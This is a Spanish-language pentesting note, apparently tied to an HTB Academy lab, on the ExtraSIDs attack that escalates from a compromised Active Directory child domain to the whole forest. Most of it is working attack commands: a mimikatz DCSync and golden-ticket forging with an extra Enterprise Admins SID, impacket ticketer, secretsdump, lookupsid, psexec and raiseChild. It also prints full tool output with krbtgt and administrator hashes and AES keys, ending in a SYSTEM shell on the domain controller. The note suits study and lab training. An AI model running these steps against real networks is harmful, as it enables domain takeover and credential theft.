

# ExtraSids Attack - Mimikatz

## Introducción

El ataque **ExtraSIDs** permite a un atacante escalar privilegios desde un dominio hijo comprometido hacia el dominio padre dentro del mismo **Active Directory (AD) Forest**. Este ataque aprovecha la falta de filtrado de SIDs (**SID filtering**) en las relaciones de confianza entre dominios dentro de un mismo bosque, permitiendo que un usuario autenticado en el dominio hijo, con un ticket Kerberos que incluye un SID adicional (**extra SID**) del grupo **Enterprise Admins** del dominio padre, sea tratado como administrador en el dominio padre y, por ende, en todo el bosque.


## Explicación rápida

- Este ataque permite comprometer a un dominio padre desde que el dominio hijo ya fue comprometido bajo el mismo **AD FOREST**.

### Estructura de un AD Forest
- **Dominio Padre**: Ejemplo: `poseidon.yzx`
- **Dominio Hijo**: Ejemplo: `sub.poseidon.yzx`
- **Relación de Confianza**: Existe una confianza bidireccional entre el dominio hijo y el padre, lo que permite la autenticación cruzada dentro del bosque.

- 
- Este ataque se basa en la explotación de propiedad sidHistory y la falta de protección de filtrado de SIDs (Sid filtering) entre dominios dentro de un AD FOREST.
- Para hacer este ataque se necesitan las siguientes condiciones:
    - HASH NT del KRBTGT del dominio hijo: Hay que generar un Golden Ticket.
    - SID del dominio fijo.
    - Nombre de un usuero objetivo en el dominio hijo.
    - FQDN del dominio hijo.
    - SID del grupo Enterprise Admins del dominio padre. 
- Debido a la ausencia de SID filtering, cuando este usuario autenticado con un SID modificado accede al dominio padre, est ratado como si fuera un miembro del grupo Admins, así dandole privilegios sobre todo el AD FOREST.

## Creación del golden ticket con mimikatz
- [Golden Ticket Attack más info](./goldenTicketAttack.md)
- `mimikatz # lsadump::dcsync /user:DOMAIN\krbtgt`
- `kerberos::golden /user:hacker /domain:DOMAIN.LOCAL /sid:SID-FOR-THE-CHILD-DOMAIN /krbtgt:9d765b482771505cbe97411065964d5f /sids:ENTERPRISE-ADMIN-SID /ptt`

## Obtener SID de enterprise admin
- `Get-DomainGroup -Domain DOMAIN.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid`
- Y si no también con:
    - `Import-Module ActiveDirectory`
    - `Get-ADGroup "Enterprise Admins" -Server DOMAIN.LOCAL`

## Mediante Linux

### Conseguir el SID con impacket
- `impacket-lookupsid DOMAIN.LOCAL/USER@DC-IP`
- Ejemplo: `lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 | grep "Domain SID"` 
    - `lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"`

## Golden ticket con impacket
- `impacket-ticketer -nthash NT-HASH -domain DOMAIN.LOCAL -domain-sid DOMAIN-SID -extra-sid EXTRA-SID hacker`
- Exportamos la variable del ticket kerberos: `export KRB5CCNAME=hacker.ccache`
- Utilizamos psexec de impacket para entrar con este ticket `impacket-psexec DOMAIN.LOCAL/hacker@DC01.DOMAIN.LOCAL -k -no-pass -target-ip DC-IP`

## Automatizar este proceso con raiseChild de impacket
- Esta herramienta automatiza la escalación de dominio hijo a padre, necesitamos especificar el dominio objetivo con su DC, y credenciales en el dominio hijo. El script hará lo demás.
- `impacket-raiseChild -target-exec DC-IP CHILD.DOMAIN.LOCAL/user`

##### Ejemplo
```bash
┌─[htb-student@ea-attack01]─[~]
└──╼ $raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm
Impacket v0.9.24.dev1+20211013.152215.3fe2d73a - Copyright 2021 SecureAuth Corporation

Password:
[*] Raising child domain LOGISTICS.INLANEFREIGHT.LOCAL
[*] Forest FQDN is: INLANEFREIGHT.LOCAL
[*] Raising LOGISTICS.INLANEFREIGHT.LOCAL to INLANEFREIGHT.LOCAL
[*] INLANEFREIGHT.LOCAL Enterprise Admin SID is: S-1-5-21-3842939050-3880317879-2865463114-519
[*] Getting credentials for LOGISTICS.INLANEFREIGHT.LOCAL
LOGISTICS.INLANEFREIGHT.LOCAL/krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9d765b482771505cbe97411065964d5f:::
LOGISTICS.INLANEFREIGHT.LOCAL/krbtgt:aes256-cts-hmac-sha1-96s:d9a2d6659c2a182bc93913bbfa90ecbead94d49dad64d23996724390cb833fb8
[*] Getting credentials for INLANEFREIGHT.LOCAL
INLANEFREIGHT.LOCAL/krbtgt:502:aad3b435b51404eeaad3b435b51404ee:16e26ba33e455a8c338142af8d89ffbc:::
INLANEFREIGHT.LOCAL/krbtgt:aes256-cts-hmac-sha1-96s:69e57bd7e7421c3cfdab757af255d6af07d41b80913281e0c528d31e58e31e6d
[*] Target User account name is administrator
INLANEFREIGHT.LOCAL/administrator:500:aad3b435b51404eeaad3b435b51404ee:88ad09182de639ccc6579eb0849751cf:::
INLANEFREIGHT.LOCAL/administrator:aes256-cts-hmac-sha1-96s:de0aa78a8b9d622d3495315709ac3cb826d97a318ff4fe597da72905015e27b6
[*] Opening PSEXEC shell at ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
[*] Requesting shares on ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL.....
[*] Found writable share ADMIN$
[*] Uploading file KNAMkjZu.exe
[*] Opening SVCManager on ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL.....
[*] Creating service pxRD on ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL.....
[*] Starting service pxRD.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```


----

##### Ejemplo 2 



## Requisitos

Para ejecutar el ataque ExtraSIDs, necesitas obtener los siguientes elementos:

1. **Clave AES256 o Hash NTLM del usuario `krbtgt` del dominio hijo**  
   - **Cómo obtenerlo**:  
     - Usa `impacket-secretsdump` para realizar un **DCSync**:  
       ```bash
       impacket-secretsdump -just-dc-user krbtgt <DOMINIO_HIJO>/<USUARIO>@<IP_DC_HIJO>
       ```  
     - Extrae el archivo `ntds.dit` del controlador de dominio hijo y procesa con:  
       ```bash
       impacket-secretsdump -system SYSTEM -ntds ntds.dit LOCAL
       ```

2. **SID del dominio hijo**  
   - **Cómo obtenerlo**:  
     - Usa `impacket-lookupsid`:  
       ```bash
       impacket-lookupsid <DOMINIO_HIJO>/<USUARIO>@<IP_DC_HIJO> | grep "Domain SID"
       ```  
     - O extrae el SID desde `ntds.dit`.

3. **Nombre del usuario objetivo en el dominio hijo**  
   - Ejemplo: `Administrator`.

4. **FQDN del dominio hijo**  
   - Ejemplo: `sub.poseidon.yzx`.

5. **SID del grupo Enterprise Admins del dominio padre**  
   - **Cómo obtenerlo**:  
     - Usa BloodHound o PowerShell en el dominio padre:  
       ```powershell
       Get-DomainGroup -Domain <DOMINIO_PADRE> -Identity "Enterprise Admins" | select objectsid
       ```  
     - O con `impacket-lookupsid`:  
       ```bash
       impacket-lookupsid <DOMINIO_HIJO>/<USUARIO>@<IP_DC_PADRE> | grep -B12 "Enterprise Admins"
       ```

6. **IP o nombre del controlador de dominio del dominio padre**  
   - Ejemplo: `dc01.poseidon.yzx` o `192.168.1.10`.

## Ejecución del Ataque con `impacket-ticketer`

### Paso 1: Forjar el Golden Ticket

Usa `impacket-ticketer` para crear un ticket Kerberos en el dominio hijo que incluya un **extra SID** del dominio padre:

```bash
impacket-ticketer \
  -aesKey <CLAVE_AES256_KRBTGT> \
  -domain-sid <SID_DOMINIO_HIJO> \
  -domain <FQDN_DOMINIO_HIJO> \
  -user <NOMBRE_USUARIO> \
  -user-id <RID_USUARIO> \
  -groups <LISTA_GRUPOS> \
  -extra-sid <SID_ENTERPRISE_ADMINS> \
  -extra-pac \
  <NOMBRE_TICKET>.ccache
```

#### Parámetros Explicados:
- `-aesKey`: Clave AES256 del `krbtgt` del dominio hijo (alternativamente, usa `-nthash` para el hash NTLM).  
- `-domain-sid`: SID del dominio hijo (ejemplo: `S-1-5-21-4168247447-1722543658-2110108262`).  
- `-domain`: Nombre completo del dominio hijo (ejemplo: `sub.poseidon.yzx`).  
- `-user`: Nombre del usuario objetivo (ejemplo: `Administrator`).  
- `-user-id`: RID del usuario (ejemplo: `500` para Administrator).  
- `-groups`: Lista de RIDs de grupos a los que pertenece el usuario (ejemplo: `512,513,518,519,520` para Domain Admins, Domain Users, Schema Admins, Enterprise Admins, Group Policy Creator Owners).  
- `-extra-sid`: SID del grupo Enterprise Admins del dominio padre (ejemplo: `S-1-5-21-1190331060-1711709193-932631991-519`).  
- `-extra-pac`: Asegura que el PAC incluya el extra SID.  
- `<NOMBRE_TICKET>.ccache`: Nombre del archivo de ticket generado (ejemplo: `administrator.ccache`).

#### Ejemplo Generalizado:
```bash
impacket-ticketer \
  -aesKey <CLAVE_AES256_KRBTGT> \
  -domain-sid S-1-5-21-xxxxxxxxxx-xxxxxxxxxx-xxxxxxxxxx \
  -domain <DOMINIO_HIJO> \
  -user Administrator \
  -user-id 500 \
  -groups 512,513,518,519,520 \
  -extra-sid S-1-5-21-yyyyyyyyyy-yyyyyyyyyy-yyyyyyyyyy-519 \
  -extra-pac \
  ticket.ccache
```

### Paso 2: Configurar el Ticket

Configura el ticket como la credencial Kerberos activa en tu entorno:

```bash
export KRB5CCNAME=$(pwd)/<NOMBRE_TICKET>.ccache
```

### Paso 3: Acceder al Dominio Padre

Usa herramientas de Impacket como `impacket-psexec` para autenticarte en el controlador de dominio del dominio padre:

```bash
impacket-psexec -k -no-pass <DOMINIO_HIJO>/<NOMBRE_USUARIO>@<IP_DC_PADRE>
```

- `-k`: Usa autenticación Kerberos con el ticket generado.  
- `-no-pass`: No requiere contraseña adicional.  
